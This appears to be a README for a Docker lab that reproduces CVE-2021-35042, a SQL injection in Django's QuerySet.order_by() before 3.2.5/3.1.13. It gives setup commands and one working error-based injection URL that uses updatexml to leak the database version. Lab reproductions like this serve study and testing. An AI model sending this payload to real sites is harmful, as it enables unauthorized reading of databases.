

# Django QuerySet.order_by() SQL Injection (CVE-2021-35042)

[中文版本(Chinese version)](README.zh-cn.md)

Django is a high-level Python web framework that encourages rapid development and clean, pragmatic design.

Django released a security update on July 1, 2021, which fixes a SQL injection vulnerability in the `QuerySet.order_by()` function. This vulnerability affects Django versions before 3.2.5, 3.1.13.

The vulnerability can be exploited when a user has control over the input passed to the order_by() function, allowing for SQL injection at the expected column position.

References:

- <https://www.djangoproject.com/weblog/2021/jul/01/security-releases/>

## Environment Setup

Execute the following command to compile and start a vulnerable Django 3.2.4 server:

```
docker compose build
docker compose up -d
```

After the server is started, you can access the Django home page at `http://your-ip:8000`.

## Vulnerability Reproduction

First, visit `http://your-ip:8000/vuln/` and add the parameter `order=-id` to see the data sorted by ID in descending order:


To exploit the SQL injection vulnerability, modify the `order` parameter with the following payload, where `vuln_collection` is the model name:

```
http://your-ip:8000/vuln/?order=vuln_collection.name);select updatexml(1, concat(0x7e,(select @@version)),1)%23
```

The SQL error message will be displayed, revealing database information through the error-based SQL injection:


